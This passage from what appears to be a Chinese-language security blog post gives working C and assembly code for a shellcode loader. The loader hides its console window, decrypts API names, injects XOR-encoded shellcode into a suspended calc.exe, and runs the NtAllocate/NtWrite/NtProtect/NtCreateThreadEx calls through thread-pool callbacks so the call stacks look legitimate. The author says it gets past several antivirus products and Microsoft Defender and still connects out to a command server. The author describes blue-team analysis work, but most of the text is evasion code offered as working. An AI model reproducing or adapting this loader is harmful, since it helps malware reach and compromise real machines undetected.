	ntWriteVirtualMemoryArgs.size = sizeof(shellcode);           // shellcode 的大小
	ntWriteVirtualMemoryArgs.bytesWritten = &bytesWirtten;       // 实际写入的大小

	PTP_WORK WorkReturn2 = NULL;
	((TPALLOCWORK)pTpAllocWork)(&WorkReturn2, (PTP_WORK_CALLBACK)Work2Callback, &ntWriteVirtualMemoryArgs, NULL);
	((TPPOSTWORK)pTpPostWork)(WorkReturn2);
	((TPRELEASEWORK)pTpReleaseWork)(WorkReturn2);
	WaitForSingleObject((HANDLE)-1, 0x1000);

	HANDLE hThread;
	NTCREATETHREADEX_ARGS threadArgs = {
		.pNtCreateThreadEx = (UINT_PTR)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx"),
		.hThread = &hThread,
		.access = GENERIC_EXECUTE,
		.objectAttributes = NULL,
		.hProcess = -1,
		.startRoutine = (LPTHREAD_START_ROUTINE)allocatedAddress,
		.argument = NULL,
		.flags = FALSE,
		.zeroBits = 0,
		.stackSize = 0,
		.maxStackSize = 0,
		.attributeList = NULL,
	};

	((TPALLOCWORK)pTpAllocWork)(&WorkReturn, (PTP_WORK_CALLBACK)Work3Callback, &threadArgs, NULL);
	((TPPOSTWORK)pTpPostWork)(WorkReturn);
	((TPRELEASEWORK)pTpReleaseWork)(WorkReturn);
	//NtWaitForSingleObject(hThread, FALSE, NULL);
	WaitForSingleObject(-1, 0x1000);
	return 0;
}


```

syscalls.asm

```
PUBLIC WorkCallback
PUBLIC Work2Callback
PUBLIC Work3Callback

    
EXTERN wNtWaitForSingleObject:DWORD            
EXTERN sysAddrNtWaitForSingleObject:QWORD      

.CODE

WorkCallback PROC
    mov rbx, rdx               
    mov rax, [rbx]             
    mov rcx, [rbx + 8h]        
    mov rdx, [rbx + 10h]       
    xor r8, r8                 
    mov r9, [rbx + 18h]        
    mov r10, [rbx + 20h]       
    mov [rsp+30h], r10         
    mov r10, 3000h             
    mov [rsp+28h], r10         
    jmp rax
WorkCallback ENDP

Work2Callback PROC
    mov     rbx, rdx        
    mov     rax, [rbx]        ; pNtWriteVirtualMemory
    mov     rcx, [rbx+8h]    ; hProcess
    mov     rdx, [rbx+10h]   ; baseAddress
    mov     r8,  [rbx+18h]   ; buffer
    mov     r9,  [rbx+20h]   ; size
    mov     r10, [rbx+28h]   ; bytesWritten
    mov     [rsp+28h], r10   ; 第 6 个参数放入栈
    jmp     rax               ; 跳转到函数地址
Work2Callback ENDP

Work3Callback PROC
    ; rdx = pointer to NTCREATETHREADEX_ARGS
    mov     rbx, rdx                  ; Save struct pointer

    mov     rax, [rbx]                ; pNtCreateThreadEx
    mov     rcx, [rbx + 8h]           ; PHANDLE hThread
    mov     rdx, [rbx + 10h]          ; ACCESS_MASK DesiredAccess
    mov     r8,  [rbx + 18h]          ; POBJECT_ATTRIBUTES ObjectAttributes (can be NULL)
    mov     r9,  [rbx + 20h]          ; HANDLE hProcess

    mov     r10, [rbx + 28h]          ; PVOID StartRoutine
    mov     [rsp+28h], r10

    mov     r10, [rbx + 30h]          ; PVOID Argument
    mov     [rsp+30h], r10

    mov     r10, [rbx + 38h]          ; ULONG Flags
    mov     [rsp+38h], r10

    mov     r10, [rbx + 40h]          ; SIZE_T ZeroBits
    mov     [rsp+40h], r10

    mov     r10, [rbx + 48h]          ; SIZE_T StackSize
    mov     [rsp+48h], r10

    mov     r10, [rbx + 50h]          ; SIZE_T MaximumStackSize
    mov     [rsp+50h], r10

    mov     r10, [rbx + 58h]          ; PPS_ATTRIBUTE_LIST AttributeList
    mov     [rsp+58h], r10

    jmp     rax
Work3Callback ENDP


; NtWaitForSingleObject 系统调用的过程
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, wNtWaitForSingleObject
    jmp QWORD PTR [sysAddrNtWaitForSingleObject]
NtWaitForSingleObject ENDP

END

```

在执行NtAllocateVirtualMemory时，调用堆栈如下：



调用栈起点来自合法windows模块，无法检测到RX区域的参与或可以DLL加载，因此大大降低了被检测的可能性

最后实测可以过掉某3检测，并正常建立通联




### 个人的小尝试

虽然使用以上方法逐步过了某火和某3，但是在本机测试依旧会被Microsoft Defender查杀到，于是我查阅资料，修改代码，经过两天的努力，终于！也过掉了Microsoft Defender的检测！

```
#include <windows.h>
#include <stdio.h>
#include <tchar.h> 
#include "syscalls.h"

unsigned char key[] = "zishen";

unsigned char shellcode[510] = {
};


void encode(unsigned char* shellCode, int shellLen) {
    for (int i = 0; i < shellLen; i++) {
        shellCode[i] ^= key[i % 6];
    }

}

//声明全局变量以保存系统调用编号和系统调用指令地址
DWORD wNtWaitForSingleObject;
UINT_PTR sysAddrNtWaitForSingleObject;

typedef NTSTATUS(NTAPI* TPALLOCWORK)(PTP_WORK* ptpWrk, PTP_WORK_CALLBACK pfnwkCallback, PVOID OptionalArg, PTP_CALLBACK_ENVIRON CallbackEnvironment);
typedef VOID(NTAPI* TPPOSTWORK)(PTP_WORK);
typedef VOID(NTAPI* TPRELEASEWORK)(PTP_WORK);

//NtAllocateVirtualMemory((HANDLE)-1, (PVOID*)&allocBuffer, (ULONG_PTR)0, &buffSize, (ULONG)(MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
typedef struct _NTALLOCATEVIRTUALMEMORY_ARGS {
    UINT_PTR pNtAllocateVirtualMemory; // NtAllocateVirtualMemory 的地址 对应 rax
    HANDLE hProcess; // 进程句柄 对应rcx
    PVOID* address; // 基地址 对应 rdx  ULONG_PTR ZeroBits固定为0 为r8x
    PSIZE_T size;     // 区域大小 对应 r9x  ULONG AllocationType固定为MEM_RESERVE|MEM_COMMIT即0x3000
    ULONG permissions; // 保护标志固定为PAGE_EXECUTE_READ 即0x20 栈中保存
} NTALLOCATEVIRTUALMEMORY_ARGS, * PNTALLOCATEVIRTUALMEMORY_ARGS;

//NtWriteVirtualMemory(GetCurrentProcess(), allocatedAddress, shellcode, sizeof(shellcode), &bytesWirtten);
typedef struct _NTWRITEVIRTUALMEMORY_ARGS {
    UINT_PTR pNtWriteVirtualMemory; // NtAllocateVirtualMemory 的地址 对应 rax
    HANDLE hProcess;
    LPVOID baseAddress;
    LPVOID buffer;
    SIZE_T size;     // 区域大小 对应 r9x  ULONG AllocationType固定为MEM_RESERVE|MEM_COMMIT即0x3000
    PSIZE_T bytesWritten; // 保护标志固定为PAGE_EXECUTE_READ 即0x20 栈中保存
} NTWRITEVIRTUALMEMORY_ARGS, * PNTWRITEVIRTUALMEMORY_ARGS;

typedef struct _NTCREATETHREADEX_ARGS {
    UINT_PTR pNtCreateThreadEx;    // 函数地址 -> RAX
    PHANDLE hThread;               // [RCX]
    ACCESS_MASK access;           // [RDX]
    PVOID objectAttributes;       // [R8]   - 可以为 NULL
    HANDLE hProcess;              // [R9]
    PVOID startRoutine;           // [rsp+0x28]
    PVOID argument;               // [rsp+0x30]
    ULONG flags;                  // [rsp+0x38]
    SIZE_T zeroBits;              // [rsp+0x40]
    SIZE_T stackSize;             // [rsp+0x48]
    SIZE_T maxStackSize;          // [rsp+0x50]
    PVOID attributeList;          // [rsp+0x58]
} NTCREATETHREADEX_ARGS, * PNTCREATETHREADEX_ARGS;

typedef struct _NTPROTECTVIRTUALMEMORY_ARGS {
    UINT_PTR pNtProtectVirtualMemory;
    HANDLE hProcess;
    PVOID* address;
    PSIZE_T size;
    ULONG newProtection;
    PULONG oldProtection;
} NTPROTECTVIRTUALMEMORY_ARGS, * PNTPROTECTVIRTUALMEMORY_ARGS;

extern VOID CALLBACK WorkCallback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work);
extern VOID CALLBACK Work2Callback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work);
extern VOID CALLBACK Work3Callback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work);
extern VOID CALLBACK Work4Callback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work);

unsigned char enc_ntdll[] = { 68, 94, 78, 70, 70, 4, 78, 70, 70 }; // "ntdll.dll" ^ 0x2A
unsigned char enc_NtAlloc[] = { 87,109,88,117,117,118,122,120,109,124,79,112,107,109,108,120,117,84,124,116,118,107,96 }; // ^ 0x19
unsigned char enc_NtWrite[] = { 93,103,68,97,122,103,118,69,122,97,103,102,114,127,94,118,126,124,97,106 }; // ^ 0x13
unsigned char enc_NtProtect[] = { 81,107,79,109,112,107,122,124,107,73,118,109,107,106,126,115,82,122,114,112,109,102 }; // ^ 0x1F
unsigned char enc_NtCreate[] = { 108,86,97,80,71,67,86,71,118,74,80,71,67,70,103,90 }; // ^ 0x22
unsigned char enc_NtWait[] = { 125,71,100,82,90,71,117,92,65,96,90,93,84,95,86,124,81,89,86,80,71 }; // ^ 0x33
unsigned char enc_TpAllocWork[] = { 81,117,68,105,105,106,102,82,106,119,110 }; // ^ 0x05
unsigned char enc_TpPostWork[] = { 82,118,86,105,117,114,81,105,116,109 }; // ^ 0x06
unsigned char enc_TpReleaseWork[] = { 83,119,85,98,107,98,102,116,98,80,104,117,108 }; // ^ 0x07
unsigned char enc_calc[] = { 96,95,93,80,95,18,89,68,89 }; // "\calc.exe" ^ 0x3C

void decode(char* dst, const unsigned char* src, int len, unsigned char key) {
    for (int i = 0; i < len; i++) {
        dst[i] = src[i] ^ key;
    }
    dst[len] = '\0';
}


int main() {
    HWND hwnd = GetConsoleWindow();
    ShowWindow(hwnd, SW_HIDE);

    PVOID allocBuffer = NULL;
    SIZE_T buffSize = 0x1000; // 4096 字节


    char str_ntdll[20], str_NtAlloc[30], str_NtWrite[30], str_NtProtect[30], str_NtCreate[30], str_NtWait[30];
    char str_TpAlloc[20], str_TpPost[20], str_TpRelease[20], str_calc[20];
    decode(str_ntdll, enc_ntdll, sizeof(enc_ntdll), 0x2A);
    HANDLE hNtdll = GetModuleHandleA(str_ntdll);


    decode(str_NtWait, enc_NtWait, sizeof(enc_NtWait), 0x33);
    UINT_PTR pNtWaitForSingleObject = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, str_NtWait);
    wNtWaitForSingleObject = ((unsigned char*)(pNtWaitForSingleObject + 4))[0];
    sysAddrNtWaitForSingleObject = pNtWaitForSingleObject + 0x12;

    wchar_t Cappname[MAX_PATH] = { 0 };
    STARTUPINFO si;
    PROCESS_INFORMATION pi;

    decode(str_calc, enc_calc, sizeof(enc_calc), 0x3C);
    //获取系统路径，拼接字符串找到calc.exe的路径
    GetSystemDirectory(Cappname, MAX_PATH);
    _tcscat(Cappname,str_calc);


    //打印注入提示
   // printf("被注入的程序名:%S\r
", Cappname);

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    //创建calc.exe进程
    if (CreateProcess(Cappname, NULL, NULL, NULL,
        FALSE, CREATE_SUSPENDED//CREATE_SUSPENDED新进程的主线程会以暂停的状态被创建，直到调用ResumeThread函数被调用时才运行。
        , NULL, NULL, &si, &pi) == 0)
    {
        return -1;
    }

    SIZE_T buffsize = 0x1000;

    decode(str_NtAlloc, enc_NtAlloc, sizeof(enc_NtAlloc), 0x19);
    NTALLOCATEVIRTUALMEMORY_ARGS ntAllocateVirtualMemoryArgs = { 0 };
    ntAllocateVirtualMemoryArgs.pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA(str_ntdll), str_NtAlloc);
    ntAllocateVirtualMemoryArgs.hProcess = pi.hProcess;
    ntAllocateVirtualMemoryArgs.address = &allocBuffer;
    ntAllocateVirtualMemoryArgs.size = &buffSize;
    //ntAllocateVirtualMemoryArgs.permissions = PAGE_EXECUTE_READWRITE;
    ntAllocateVirtualMemoryArgs.permissions = PAGE_READWRITE;

    decode(str_TpAlloc, enc_TpAllocWork, sizeof(enc_TpAllocWork), 0x05);
    decode(str_TpPost, enc_TpPostWork, sizeof(enc_TpPostWork), 0x06);
    decode(str_TpRelease, enc_TpReleaseWork, sizeof(enc_TpReleaseWork), 0x07);
    FARPROC pTpAllocWork = GetProcAddress(GetModuleHandleA(str_ntdll), str_TpAlloc);
    FARPROC pTpPostWork = GetProcAddress(GetModuleHandleA(str_ntdll), str_TpPost);
    FARPROC pTpReleaseWork = GetProcAddress(GetModuleHandleA(str_ntdll), str_TpRelease);

    PTP_WORK WorkReturn = NULL;
    ((TPALLOCWORK)pTpAllocWork)(&WorkReturn, (PTP_WORK_CALLBACK)WorkCallback, &ntAllocateVirtualMemoryArgs, NULL);
    ((TPPOSTWORK)pTpPostWork)(WorkReturn);
    ((TPRELEASEWORK)pTpReleaseWork)(WorkReturn);
    WaitForSingleObject((HANDLE)-1, 0x1000);


    decode(str_NtWrite, enc_NtWrite, sizeof(enc_NtWrite), 0x13);
    SIZE_T bytesWirtten;
    encode(shellcode, sizeof(shellcode));
    NTWRITEVIRTUALMEMORY_ARGS ntWriteVirtualMemoryArgs = { 0 };
    ntWriteVirtualMemoryArgs.pNtWriteVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA(str_ntdll), str_NtWrite);
    ntWriteVirtualMemoryArgs.hProcess = pi.hProcess;              // 当前进程
    ntWriteVirtualMemoryArgs.baseAddress = allocBuffer;     // 要写入的目标地址
    ntWriteVirtualMemoryArgs.buffer = shellcode;                 // 指向 shellcode 的缓冲区
    ntWriteVirtualMemoryArgs.size = sizeof(shellcode);           // shellcode 的大小
    ntWriteVirtualMemoryArgs.bytesWritten = &bytesWirtten;       // 实际写入的大小

    PTP_WORK WorkReturn2 = NULL;
    ((TPALLOCWORK)pTpAllocWork)(&WorkReturn2, (PTP_WORK_CALLBACK)Work2Callback, &ntWriteVirtualMemoryArgs, NULL);
    ((TPPOSTWORK)pTpPostWork)(WorkReturn2);
    ((TPRELEASEWORK)pTpReleaseWork)(WorkReturn2);
    WaitForSingleObject((HANDLE)-1, 0x1000);

    ULONG oldProtect = 0;
    decode(str_NtProtect, enc_NtProtect, sizeof(enc_NtProtect), 0x1F);
    NTPROTECTVIRTUALMEMORY_ARGS ntProtectVirtualMemoryArgs = { 0 };
    ntProtectVirtualMemoryArgs.pNtProtectVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA(str_ntdll), str_NtProtect);
    ntProtectVirtualMemoryArgs.hProcess = pi.hProcess;
    ntProtectVirtualMemoryArgs.address = &allocBuffer;
    ntProtectVirtualMemoryArgs.size = &buffSize;
    ntProtectVirtualMemoryArgs.newProtection = PAGE_EXECUTE_READ;
    ntProtectVirtualMemoryArgs.oldProtection = &oldProtect;
    PTP_WORK WorkReturn4 = NULL;
    ((TPALLOCWORK)pTpAllocWork)(&WorkReturn4, (PTP_WORK_CALLBACK)Work4Callback, &ntProtectVirtualMemoryArgs, NULL);
    ((TPPOSTWORK)pTpPostWork)(WorkReturn4);
    ((TPRELEASEWORK)pTpReleaseWork)(WorkReturn4);


    decode(str_NtCreate, enc_NtCreate, sizeof(enc_NtCreate), 0x22);
    //NtCreateThreadEx(&pi.hThread,GENERIC_EXECUTE, NULL, pi.hProcess, (LPTHREAD_START_ROUTINE)allocBuffer, NULL, FALSE, 0, 0, 0, NULL);
    NTCREATETHREADEX_ARGS threadArgs = {
    .pNtCreateThreadEx = (UINT_PTR)GetProcAddress(GetModuleHandleA(str_ntdll),str_NtCreate),
    .hThread = &pi.hThread,
    .access = GENERIC_EXECUTE,
    .objectAttributes = NULL,
    .hProcess = pi.hProcess,
    .startRoutine = (LPTHREAD_START_ROUTINE)allocBuffer,
    .argument = NULL,
    .flags = FALSE,
    .zeroBits = 0,
    .stackSize = 0,
    .maxStackSize = 0,
    .attributeList = NULL,
    };

    ((TPALLOCWORK)pTpAllocWork)(&WorkReturn, (PTP_WORK_CALLBACK)Work3Callback, &threadArgs, NULL);
    ((TPPOSTWORK)pTpPostWork)(WorkReturn);
    ((TPRELEASEWORK)pTpReleaseWork)(WorkReturn);

    //WaitForSingleObject(pi.hThread, INFINITE);
    NtWaitForSingleObject(pi.hThread, FALSE, NULL);
    getchar();

}
```

经过分析被检查的原因应该有以下几条：

1、Shellcode特征，xor加密非常常见且容易被静态规则识别，许多AV产品能轻松识别类似xor decode -> RWX ->execute 的行为

2、使用 RWX 权限分配内存：PAGE\_EXECUTE\_READWRITE

3、使用了Nt\*系统调用函数但函数名未混淆

所以我主要针对以上三点进行优化，对Shellcode用密匙加密，使用NtAllocateVirtualMemory分配内存是属性设置为PAGE\_READWRITE，写入shellCode之后，再使用NtProtectVirtualMemory修改成PAGE\_EXECUTE\_READ，对所有字符串进行指定key加密




如上，静态和动态都检测不到，可正常通联

## 小结

在深入研究并实践的过程中，逐步过掉各大厂商的检测，令我成就感满满（虽然过程是煎熬的），也让我体会了一下“黑阔”的快乐！因为本人目前的工作是APT分析，属于蓝队，平时分析样本时，也会研究样本中攻击者的手法，在写该案例时也总会从蓝队的视角来观察（因为我一般只在意样本好不好分析哈哈哈），令我感兴趣的一点是使用SysWhispers2实现直接系统调用时，代码结构和IDA反编译结构如下图所示，具体结构相差甚大（虽然不能防检测，但能防分析啊哈哈）



​
